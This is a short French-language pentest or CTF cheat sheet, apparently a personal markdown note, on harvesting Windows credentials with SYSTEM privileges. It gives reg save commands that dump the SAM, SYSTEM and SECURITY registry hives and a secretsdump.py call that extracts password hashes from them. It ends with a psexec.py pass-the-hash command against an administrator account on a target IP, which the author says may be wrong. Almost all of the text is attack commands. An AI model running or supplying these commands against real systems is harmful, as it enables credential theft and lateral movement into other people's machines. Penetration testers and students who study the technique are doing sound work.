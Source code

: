 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Sauvegarde des credentials quand on est system
```shell
reg save hklm\sam sam.save
reg save hklm\system system.save
reg save hklm\security security.save
```

```
secretdump.py local -sam sam.save -security security.save -system system.save LOCAL
```

``` shell 
# ATTENTION, je n'ai pas réussi à le faire fonctionner sur les boxes où je l'ai testé la commande pourraît être erronnée
psexec.py Administratur@$TARGET_IP -hashes xxxxxxxxxxxxxxxxx
```